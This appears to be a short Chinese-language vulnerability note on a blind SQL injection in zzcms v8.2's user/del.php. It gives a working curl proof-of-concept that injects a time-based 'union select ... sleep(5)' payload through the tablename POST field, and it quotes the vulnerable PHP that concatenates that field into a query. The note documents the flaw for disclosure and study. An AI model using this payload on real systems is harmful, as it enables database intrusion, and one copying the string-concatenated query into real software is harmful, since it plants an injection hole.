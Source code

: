 ## zzcms v8.2 

### del.php 无回显注入

影响版本

* 8.2

参考链接

* [ZZCMS v8.2 最新版SQL注入漏洞](http://www.freebuf.com/vuls/161888.html)

Poc

```
curl '127.0.0.1/user/del.php' -d 'id=1&tablename=zzcms_answer union select 1, sleep(5)%23'
```

关键代码

```
# 获取表名后，使用 switch/case 去分别处理
$tablename=trim($_POST["tablename"]);

...

# 在默认分支，拼接了这个参数导致注入
$sql="select id,editor from ".$tablename." where id ='$id'";
```

